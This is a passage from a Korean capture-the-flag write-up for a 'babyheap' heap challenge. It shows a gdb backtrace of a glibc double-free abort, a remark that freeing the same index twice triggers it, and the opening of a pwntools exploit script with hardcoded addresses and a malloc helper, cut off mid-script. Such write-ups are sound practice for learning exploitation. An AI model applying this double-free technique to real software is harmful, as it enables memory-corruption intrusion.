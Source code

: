         mode=0x80000001, caller_dlopen=0x7ffff7b22bc1 <__GI___backtrace+193>, 
        nsid=0xfffffffffffffffe, argc=<optimized out>, argv=<optimized out>, 
        env=0x7fffffffdd98) at dl-open.c:660
    #6  0x00007ffff7b505ad in do_dlopen (ptr=ptr@entry=0x7fffffffd290)
        at dl-libc.c:87
    #7  0x00007ffff7de7574 in _dl_catch_error (objname=0x7fffffffd280, 
        errstring=0x7fffffffd288, mallocedp=0x7fffffffd27f, 
        operate=0x7ffff7b50570 <do_dlopen>, args=0x7fffffffd290) at dl-error.c:187
    #8  0x00007ffff7b50664 in dlerror_run (args=0x7fffffffd290, 
        operate=0x7ffff7b50570 <do_dlopen>) at dl-libc.c:46
    #9  __GI___libc_dlopen_mode (name=name@entry=0x7ffff7b99686 "libgcc_s.so.1", 
        mode=mode@entry=0x80000001) at dl-libc.c:163
    #10 0x00007ffff7b22bc1 in init () at ../sysdeps/x86_64/backtrace.c:52
    #11 __GI___backtrace (array=array@entry=0x7fffffffd2f0, size=size@entry=0x40)
        at ../sysdeps/x86_64/backtrace.c:105
    #12 0x00007ffff7a2c9f5 in backtrace_and_maps (do_abort=<optimized out>, 
        do_abort@entry=0x2, written=<optimized out>, fd=fd@entry=0x3)
        at ../sysdeps/unix/sysv/linux/libc_fatal.c:47
    #13 0x00007ffff7a847e5 in __libc_message (do_abort=do_abort@entry=0x2, 
        fmt=fmt@entry=0x7ffff7b9ded8 "*** Error in `%s': %s: 0x%s ***\n")
        at ../sysdeps/posix/libc_fatal.c:172
    #14 0x00007ffff7a8d37a in malloc_printerr (ar_ptr=<optimized out>, 
        ptr=<optimized out>, 
        str=0x7ffff7b9dfa0 "double free or corruption (fasttop)", action=0x3)
        at malloc.c:5006
    #15 _int_free (av=<optimized out>, p=<optimized out>, have_lock=0x0)
        at malloc.c:3867
    #16 0x00007ffff7a9153c in __GI___libc_free (mem=<optimized out>)
        at malloc.c:2968
    #17 0x0000000000400a86 in Free ()
    #18 0x0000000000400b5e in main ()
    #19 0x00007ffff7a2d830 in __libc_start_main (main=0x400b1e <main>, argc=0x1, 
        argv=0x7fffffffdd88, init=<optimized out>, fini=<optimized out>, 
        rtld_fini=<optimized out>, stack_end=0x7fffffffdd78)
        at ../csu/libc-start.c:291
    #20 0x00000000004007b9 in _start ()
    
 
<br>
따라서 마지막에 같은 인덱스 free를 2번 해주면 끝이다.


<br><br><br><br><br>


### 3. 풀이

---

최종 익스코드는 다음과 같다.
```python
from pwn import *
context.log_level="DEBUG"
#p=remote("ctf.j0n9hyun.xyz",3030)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
p=process("././babyheap")
gdb.attach(p)

ptr_adr=0x602060
put_rela=0x4005a8
libc=ELF("./libc.so.6")

def malloc(size,context):
    p.sendafter("> ","1")
    p.sendlineafter("size: ",str(size))
    p.sendafter("content: ",context)
```